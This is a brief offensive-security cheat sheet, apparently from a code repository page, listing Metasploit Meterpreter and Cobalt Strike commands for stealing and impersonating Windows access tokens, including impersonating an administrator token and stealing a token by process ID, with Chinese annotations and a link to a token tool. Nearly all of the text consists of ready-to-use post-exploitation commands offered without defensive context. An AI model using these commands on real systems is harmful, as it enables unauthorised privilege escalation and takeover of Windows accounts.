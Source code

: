 #### MSF
	Meterpreter>use incognito
	Meterpreter>list_tokens -u
	Meterpreter>impersonate_token name\\administrator
	&
	Meterpreter>ps
	Meterpreter>steal_token pid
#### Cobalt strike
	beacon> steal_token 1234 窃取令牌
	beacon> rev2self 恢复令牌
	Windows
	https://gitee.com/RichChigga/incognito2
